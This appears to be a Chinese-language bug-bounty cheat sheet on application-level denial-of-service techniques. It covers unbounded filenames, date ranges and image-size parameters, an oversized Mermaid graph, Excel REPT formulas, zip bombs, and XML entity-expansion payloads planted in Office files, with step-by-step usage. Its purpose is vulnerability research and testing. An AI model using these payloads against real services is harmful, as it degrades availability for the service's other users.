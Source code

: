 ## 文件名 DoS

上传文件时, 文件名没有长度限制导致 DoS;

某些情况下上传处可能无法直接 DoS, 但是在 API 读取文件名时可能产生 DoS

---

References

- [profile-picture name parameter with large value lead to DoS for other users and programs on the platform](https://hackerone.com/reports/764434)

## 时间查询 DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成 DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

References

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````

```mermaid
graph TD
A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B
```

---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

References

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

References

- [dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)
